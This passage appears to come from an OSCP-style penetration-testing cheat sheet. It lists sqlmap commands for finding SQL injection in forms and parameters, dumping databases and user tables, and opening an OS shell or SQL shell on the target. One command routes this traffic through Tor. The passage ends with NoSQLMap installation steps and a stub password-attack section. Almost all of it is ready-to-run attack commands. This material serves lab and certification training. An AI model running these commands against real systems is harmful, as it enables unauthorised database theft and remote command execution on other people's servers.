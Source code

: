             `sqlmap -o -u http://$ip/index.php --forms --dbs  `

            `sqlmap -o -u "http://$ip/form/" --forms`

          - Sqlmap check form for injection

             `sqlmap -o -u "http://$ip/vuln-form" --forms -D database-name -T users --dump`

           - Enumerate databases

              `sqlmap --dbms=mysql -u "$URL" --dbs`

            - Enumerate tables from a specific database

              `sqlmap --dbms=mysql -u "$URL" -D "$DATABASE" --tables  `

            - Dump table data from a specific database and table

               `sqlmap --dbms=mysql -u "$URL" -D "$DATABASE" -T "$TABLE" --dump `

            - Specify parameter to exploit

               `sqlmap --dbms=mysql -u "http://www.example.com/param1=value1&param2=value2" --dbs -p param2 `

            - Specify parameter to exploit in 'nice' URIs (exploits param1)

                `sqlmap --dbms=mysql -u "http://www.example.com/param1/value1*/param2/value2" --dbs `

            - Get OS shell

                 `sqlmap --dbms=mysql -u "$URL" --os-shell`

            - Get SQL shell

                 `sqlmap --dbms=mysql -u "$URL" --sql-shell`

             - SQL query

                `sqlmap --dbms=mysql -u "$URL" -D "$DATABASE" --sql-query "SELECT * FROM $TABLE;"`

             - Use Tor Socks5 proxy

                `sqlmap --tor --tor-type=SOCKS5 --check-tor --dbms=mysql -u "$URL" --dbs`


-   **NoSQLMap Examples**
       You may encounter NoSQL instances like MongoDB in your OSCP journies (`/cgi-bin/mongo/2.2.3/dbparse.py`).  NoSQLMap can help you to automate NoSQLDatabase enumeration.

  -   NoSQLMap Installation

            git clone https://github.com/codingo/NoSQLMap.git
            cd NoSQLMap/
            ls
            pip install couchdb
            pip install pbkdf2
            pip install ipcalc
            python nosqlmap.py --help

-   Password Attacks
    --------------------------------------------------------------------------------------------------------------

    -   AES Decryption
        http://aesencryption.net/
